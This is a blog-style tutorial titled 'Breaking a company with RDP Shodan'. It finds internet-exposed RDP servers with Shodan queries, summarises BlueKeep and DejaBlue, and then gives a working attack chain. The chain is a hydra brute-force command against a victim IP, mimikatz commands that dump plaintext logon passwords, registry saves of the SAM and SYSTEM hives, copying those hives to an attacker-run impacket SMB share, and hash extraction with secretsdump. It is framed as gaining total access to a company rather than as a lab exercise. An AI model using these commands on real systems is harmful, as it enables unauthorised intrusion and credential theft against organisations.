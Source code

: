 ```yaml
---
title: Breaking a company with RDP Shodan(Outdated, soon a new one)
published: true
---
```


RDP is a remote access protocol by which valid users can be logged in, cybercriminals often exploit this port to gain access to companies and sell access to it.

## Searching on Shodan

We need to go to [shodan](https://shodan.io), now we need to log in to be able to search in shodan.

<img src="https://eltallerdelbit.com/wp-content/uploads/2017/11/shodan-search-engine-for-the-internet-of-things.jpg">

Now you need to search with this query.

`` 
port:3389
``

With this we will be looking for those servers with port 3389 open.

Some queries which are advisable to look for

``` ruby
port:3389
port:3389 Country:ES
port:3389 Administrator
port:3389 Administracion
vuln:cve-2019-0708
```

After enter this querys, we can see a lot of servers with the rdp port open.
Thanks to shodan we will be able to see existing users of the system to brute force.

<img src="https://i.ibb.co/7pgxM7w/proof.png">

## Vulnerabilities

During the covid quarantine, cybercriminals were exploiting vulnerabilities in servers with port 3389, several of the vulnerabilities were as follows.

### Bluekeep (CVE-2019-0708)

*BlueKeep seeks to run malicious code in the kernel memory of the server, allowing the hacker to take control of the entire system. The key to sending this code to the server is in the session setup. It’s at this point that BlueKeep sends arbitrary code to the server. The server stores it in memory, then frees the memory up again. However, because the server retains a pointer to the memory, BlueKeep is able to execute the malicious code.*

*Technical analysis [here](https://iotsecuritynews.com/technical-analysis-of-bluekeep/)*

<img src="https://2164375935-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-Lp0LQX2B5gc18QD-Izh%2F-LuIi6zKvZyZXercxtu0%2F-LuJ523Xqfri-cqUzLKw%2FFlinkCEP-Bluekeep-NFA-Schema.jpg?alt=media&token=d806db30-1871-4b46-a7ec-4e68b24d16eb">

### DejaBlue (CVE-2019-1181 CVE-2019-1182 CVE-2019-1222 and CVE-2019-1226) 

*In August 2019, Microsoft used its Patch Tuesday to release new patches related to CVEs affecting the remote desktop protocol. Of those vulnerabilities, four stand out for their striking similarity to the BlueKeep vulnerability.*

- **CVE-2019-1181 and CVE-2019-1182: affect devices running Windows 7, Windows 8.1 or Windows 10, as well as any device running Windows Server 2008, Windows Server 2012, Windows Server 2016 or Windows Server 2019.**

- **CVE-2019-1222 y CVE-2019-1226: afectan a los dispositivos que ejecutan Windows 10 o Windows Server 2019.**

*DejaBlue vulnerabilities are based on flaws in the early stages of an RDP connection. Since the flaws reside in the processes preceding the authentication phase, no prior knowledge of passwords or keys is required to undertake an attack that can ultimately lead to illicit remote code execution.*

*Technical Analysis [here](https://www.malwaretech.com/2019/08/dejablue-analyzing-a-rdp-heap-overflow.html)*

## BruteForce

We are going to use hydra, to make the bruteforce

``` java
hydra -L user.txt -P pass.txt IP_VICTIM rdp
```

<img src="https://1.bp.blogspot.com/-NqCFAA8TlVQ/XufVdykKZnI/AAAAAAAAHB4/wQlcf0Cm3BwGgywbLDklRXJ9P1ZoZzQSQCNcBGAsYHQ/s1600/4_hydra-fuerza-bruta-profundidad-rdp.pnghttps%3A%2F%2Ftelegra.ph%2Ffile%2F3f4b2c33b38d472797e54.png">

## Privesc

After have access to the RDP server with a valid access, now we need to dump the passwords to scalate the privilages with mimikatz.

### Mimikatz

**Obtaining credentials in plain text**

``` ruby
~$> privilage::debug
~$> sekurlsa::logonpasswords
```

<img src="https://www.ngi.es/wp-content/uploads/2021/10/mimikatz_tool_bg.jpg">

**Obtaining sam and system hashes**

``` ruby
~$> reg save HKLM\sam sam.backup
~$> reg save HKLM\system system.backup
```

Now we need to transfer this files to our system with impacket-smbserver

*Server*
``` sh
~$> sudo impacket-smbserver smbFolder $(pwd) -smb2support
```

*Victim*
``` ruby
> copy sam.backup \\10.10.14.60\smbFolder\sam
> copy system.backup \\10.10.14.60\smbFolder\system
```

**Dumping sam and system hashes**
``` ruby
~$> impacket-secretsdump -sam sam -system system LOCAL
```
<img src="https://i.ibb.co/Tr5jV3n/ld.png">

**After this, now we have dumped the credentials and have total access to the company.**